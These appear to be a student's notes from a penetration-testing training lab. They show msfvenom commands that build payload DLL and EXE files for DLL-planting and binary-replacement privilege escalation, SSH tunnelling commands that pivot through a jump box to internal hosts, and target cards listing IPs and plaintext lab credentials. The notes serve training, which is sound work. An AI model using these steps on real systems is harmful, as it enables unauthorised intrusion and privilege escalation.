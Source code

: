 ## Showcase
### Fake Payload write permissions (dll emplacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload rename permissions (exe replacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot: 192.168.28.105
## -->T1: 192.168.28.5

    ssh -MS /tmp/jump student@10.50.25.229
    ssh -S /tmp/jump jump -O forward -L20005:192.168.28.105:2222
    ssh -S /tmp/t1 t1 -O forward -L20006:192.168.28.5:3389
    xfreerdp /v:127.0.0.1:20006 /u:comrade /p:StudentPrivPassword /size:1920x1000 +clipboard

## Pivot
### Hostname: ftp.site.donovia
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: donovian-windows-private
### IP: 192.168.28.5
### OS: Windows ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: 3389
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
